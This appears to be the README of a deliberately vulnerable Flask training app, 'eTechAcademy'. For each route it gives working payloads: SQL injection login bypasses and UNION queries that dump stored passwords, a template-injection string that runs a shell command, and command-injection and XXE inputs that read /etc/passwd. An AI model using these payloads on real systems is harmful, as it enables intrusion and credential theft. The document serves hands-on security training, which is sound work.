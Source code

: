 # eTechAcademy Flask App

## Vulnerabilities

### SQL Injection
Paths: `/login` and `/index`
Methods: `GET, POST`

**Examples:**
- Log into admin account with SQL
```
username: ' OR 1=1--
password: a

OR 

username: admin 
password: ' OR 1=1--
```

- Vulnerable query database on `/index`
```
' OR 1=1--
' UNION SELECT username,password FROM users--
' UNION SELECT username || ':' || password,role FROM users--
```

Resources: [Sqli CheatSheet](https://book.hacktricks.xyz/pentesting-web/sql-injection)

**SQL Fix:**
```
cur.execute("SELECT user_id, role FROM users WHERE username = %s AND password = %s", (username, password))
```

### Server-Side Template Injection
Paths: `/search_course`
Methods: `GET, POST`

**Examples:**
```
{{ 7 * 7 }}
```

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Other resources: [SSTI Cheatsheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

### Command Injection
Path: `/admin_dashboard/system_monitor`
Methods: `GET, POST`

**Examples:**
```
whoami
cat /etc/passwd
```

### XML External Entity Injection (XXE)
XXE Injection allows for injection of XML entities to access or manipulate files on application.

Path: `/process_xml`
Methods: `POST`

**Example**
- On `/add_course` XML Section
```
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>
   <title>Test Title</title>
    <description>Test Description</description>
    <image_path>&xxe;</image_path>
</root>
```

Other resources: [XXE Cheatsheet](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)